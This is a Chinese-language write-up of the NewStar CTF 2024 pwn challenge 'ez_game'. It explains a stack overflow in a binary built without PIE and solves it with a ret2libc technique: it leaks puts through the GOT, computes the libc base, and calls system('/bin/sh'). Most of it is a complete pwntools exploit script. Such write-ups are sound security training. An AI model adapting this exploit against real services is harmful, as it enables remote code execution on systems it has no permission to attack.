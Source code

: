 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# ez_game

![func 函数](/assets/images/wp/2024/week2/ez-game_1.png)

明显的栈溢出且没有后门函数

再 checksec 一下，没有开启 pie

![checksec 的结果](/assets/images/wp/2024/week2/ez-game_2.png)

直接打 ret2libc<span data-desc>（但是得进行栈对齐）</span>

1. 先通过 puts 泄露出 puts 地址，通过 puts 地址与 libc 基地址的偏移得到 libc 基地址，并返回 `main` 函数进行第二次溢出，实现 getshell
2. 构建 `system("/bin/sh")` 取 shell

:::tip 提示
可以用 ret 地址进行栈对齐
:::

EXP:

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

ifremote = 0
if ifremote == 1:
    io = remote('0.0.0.0', 9999)
else:
    io = process('./attachment')

elf = ELF('./attachment')
# libc=ELF("./libc-2.31.so")
libc = elf.libc

# gdb.attach(io)
# pause()

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x0000000000400509

payload = b'a'*0x58+p64(0x0000000000400783)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.sendline(payload)
io.recvuntil(b'\x0a')
puts_addr = u64(io.recv(6).ljust(8, b'\x00'))
print("puts_addr======================>", hex(puts_addr))

libc_base = puts_addr-libc.sym['puts']
system_addr = libc_base+libc.sym['system']
bin_sh_addr = libc_base+0x1b45bd

payload = b'a'*0x58+p64(0x0000000000400783)+p64(bin_sh_addr)+p64(ret_addr)+p64(system_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.send(payload)

io.interactive()
```

